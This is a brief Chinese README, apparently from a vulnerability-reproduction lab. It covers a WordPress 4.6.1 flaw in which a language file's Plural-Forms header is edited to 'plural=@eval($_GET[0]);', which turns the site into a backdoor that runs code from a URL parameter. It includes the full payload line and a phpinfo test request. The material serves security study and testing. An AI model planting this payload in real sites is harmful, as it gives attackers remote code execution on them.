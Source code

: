 ## gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试

